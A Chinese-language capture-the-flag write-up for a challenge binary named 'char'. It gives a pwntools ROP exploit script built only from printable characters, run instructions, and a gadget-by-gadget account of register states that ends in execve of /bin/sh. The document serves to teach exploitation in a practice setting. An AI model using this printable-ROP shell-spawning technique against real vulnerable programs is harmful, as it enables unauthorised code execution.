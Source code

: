 # 解析char-130

> 参考了[https://gist.github.com/rick2600/ae2af7ffd33a17836f06ce191f643b26](https://gist.github.com/rick2600/ae2af7ffd33a17836f06ce191f643b26)

> 主要解法

```python
from pwn import *

rop = "A" * 32          # <1>

# set ecx = 0
rop += p32(0x555f3555) # pop edx ; xor eax, eax ; pop edi ; ret <2>
rop += p32(0x41414141)
rop += p32(0x41414141)
rop += p32(0x556d2a51) # pop ecx ; add al, 0xa ; ret <3>
rop += p32(0x41414141)
rop += p32(0x55655b4c) # sub ecx, edx ; add esp, 0x4c ; mov eax, ecx ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret  <4>
rop += "A" * 0x4c
rop += p32(0x41414141) * 4

# set eax = 0x5563704d (ret)
rop += p32(0x555f3555) # pop edx ; xor eax, eax ; pop edi ; ret  <5>
rop += p32(0x5563704d) # edx
rop += p32(0x41414141) # edi
rop += p32(0x555b3454) # mov eax, edx ; ret  <6>

# ebx = '...///////bin/sh'
rop += p32(0x55643026) # push eax ; push esp ; xor eax, eax ; pop ebx ; ret  <7>
rop += p32(0x556a3457) # xor eax, eax ; ret <8>
rop += p32(0x556c6864) # inc eax ; ret 0 <9>
rop += p32(0x556d2860) * 2 # add ah, al ; ret  <10>
rop += p32(0x55634e43) # add bh, ah ; ret <11>

# set edx = 0
rop += p32(0x55617940) # mov edx, 0xffffffff ; cmovne eax, edx ; ret <12>
rop += p32(0x555e7a4b) # inc edx ; add al, 0x5f ; ret  <13>

# esi = execve+0x23 0x55616603
rop += p32(0x55623c37) # pop esi ; ret  <14>
rop += p32(0x55616621) 
rop += p32(0x556f4237) * (0x21-0x3) # dec esi ; ret <15>
rop += p32(0x556e552c) # push esi; ret <16>

rop += "/" * 500 + "/bin/sh"
print('%s'%(rop))
```

## 破解方法
> 运行 python solve.py 输出的字符串。
> 再运行 LD_PRELOAD=/home/char/libc.so ./char （这里一定要把libc.so放到/home/char目录下面，这个是必须的）等到出现 GO )提示之后，把输出的字符串COPY，就可以了。

> 这里的难度在于几点：
*  反汇编了，看到有一个函数检查输入值。这里的输入值必须在 '!' 到'}' 之间，不能超过这些值，（这里面，因为空格是不能被scanf接受）
* 这里的栈上是不能执行代码的，所以，最后要想办法得到数据

> 但其实也有可以进行处理的内容的方便，
* 这里在开始把libc.so这个方便映射到了 0x5555e000 这样的地址，而且还把这个所有的地址变成了 PROT_EXEC|PROT_WRITE 的属性
* 这里可以有最多2400个字符。
* 这里的地址是固定的。可以用硬代码

## 解释代码
* <1> 这里的前面 32个'A' 是在strcpy 之后，会有一些对esp的调整，特别是ebp原来保存的内容，把栈调整，这里是给第一个返回值 0x555f3555 
* <2> 这个返回值，如果你用gdb来进行跟踪，就是进入了 pop edx ; xor eax, eax ; pop edi ; ret 汇编代码，这里如何来的，你想一下，前面mmap 了libc.so 到了0x5555e000，再用objdump -D libc.so ，查看了0x95554这里的代码，当然，实际处理是把前面一个0x75没有，就是运行上面的代码了。 这个之后的edx=0x41414141 edi=0x41414141 eax=0x0
* <3> 这个时候得到的 0x174a51 = 0x556d2a51 - 0x555e0000 的地址是 pop ecx;add al,10; ret ;ecx=0x41414141 eax=0xa
* <4> 这个时候得到 0xf7b4c = 0x55655b4c - 0x555e0000的地址是 sub ecx, edx ; add esp, 0x4c ; mov eax, ecx ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret ;运行 ecx=0x0 , eax=0x0,ebx=0x41414141, esi=0x41414141, edi=0x41414141,ebp=0x41414141 这里前面填充0x4c*'A'就是处理 add esp,0x4c
* <5> 这个时候得到的 0x95555 = 0x555f3555 - 0x555e0000 的地址是 pop edx ; xor eax, eax ; pop edi ; ret 就是运行上面的代码了。 这个之后的edx=0x5563704d edi=0x41414141 eax=0x0
* <6> 这个时候得到的 0x55454 = 0x555b3454 - 0x555e0000 的地址是 mov eax, edx ; ret 就是运行上面的代码了。 这个之后的 eax=0x5563704d
* <7> 这个时候得到的 0xe5026 = 0x55643026 - 0x555e0000 的地址是 push eax ; push esp ; xor eax, eax ; pop ebx ; ret 就是运行上面的代码了。 这个之后的 eip=0x5563704d, eax=0x0,ebx=esp（这里代码注释中说是指向///..//bin/sh，但实际上是指向这个之前，因为这里我们还没有运行完毕，所以，这里的后面进行修正）这个指向的0x5563704d这个值是可以允许的ret值，所有这些其实关键是指向ebx=...////bin/sh
* <8> 这个时候得到的 0x145457 = 0x556a3457 - 0x555e0000 的地址是 xor eax, eax ; ret 就是运行上面的代码了。 这个之后的 eax=0x0
* <9> 这个时候得到的 0x168864 = 0x556c6864 - 0x555e0000 的地址是 inc eax ; ret 0 就是运行上面的代码了。 这个之后的 eax=1
* <10> 这里两次运行了代码 0x174860 = 0x556d2860 - 0x555e0000 的地址是 add ah, al ; ret 这个运行完毕 eax=0x201
* <11> 这里两次运行了代码 0xd6e43 = 0x55634e43 - 0x555e0000 的地址是 add bh, ah ; ret 这个运行完毕 ebx向高端移动了0x200的地址，刚才我们说了，这个值原来是指向地址的，这里是真的指向了...///bin/sh了，
* <12> 这个目的是把edx=0，因为后面要用到的
* <14> <15> 是调整esi的值，指向execve这里最后的调用代码mov eax,0bh;call gs:0x10 这里主要是原因是要调整指针，因为要满足前面的字符串条件，所以，要对这里进行调整，最后调用 execve("///bin/sh",NULL,NULL)这个调用成功 ebx="///bin/sh" ,ecx=NULL edx=NULL

